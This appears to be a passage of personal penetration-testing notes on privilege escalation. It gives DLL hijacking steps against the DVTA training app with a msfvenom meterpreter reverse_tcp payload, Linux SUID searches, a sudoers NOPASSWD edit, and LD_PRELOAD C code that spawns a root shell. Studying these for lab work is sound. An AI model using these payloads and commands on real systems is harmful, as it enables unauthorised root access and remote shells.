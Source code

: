 You need to be able to make change one of these folder

- Inject the malicous dll, then the programs will load the malicious dll

Tools:
- DVTA (Our target)
- Promon

**Steps:**
- Procmon filter `CreateFile` -> Run DVTA
- Procmon filter ProcessName is `DVTA.exe`
- Filter result that `NAME NOT FOUND`, searching for dll that process not found and the folder that we can access
- Check the ACL with `Get-ACL '/path/to/folder/' | Format-list
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST ... -f dll > payload.dll`
- Ship the payload and setup multi/handler -> Place the dll to correct folder

## Linux

### Local store

Looking for folder maybe contain config

- `grep -nr "password"` Grep content

### SUID

`find / -perm -u=s -type f 2>/dev/null` - Looking for binary that have root privilege

We can looking for change the content of `/etc/sudoer` file.
- Add this line `<user> ALL=(ALL) NOPASSWD:ALL`

### Share library inject

Several techniques can be used to inject a shared library into a running process:
- Using LD_PRELOAD: This environment variable specifies a shared library to be loaded before any other libraries. By setting this variable, an attacker can preload a malicious shared library into a process.
- Process Control (ptrace): The ptrace system call allows a process to control another process, typically used for debugging. Attackers can use ptrace to inject code into a running process, causing it to load a malicious shared library

Steps:
- Check with `sudo -l`
  - Looking for LD_PRELOAD privilege
- Create a malicious dll

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```
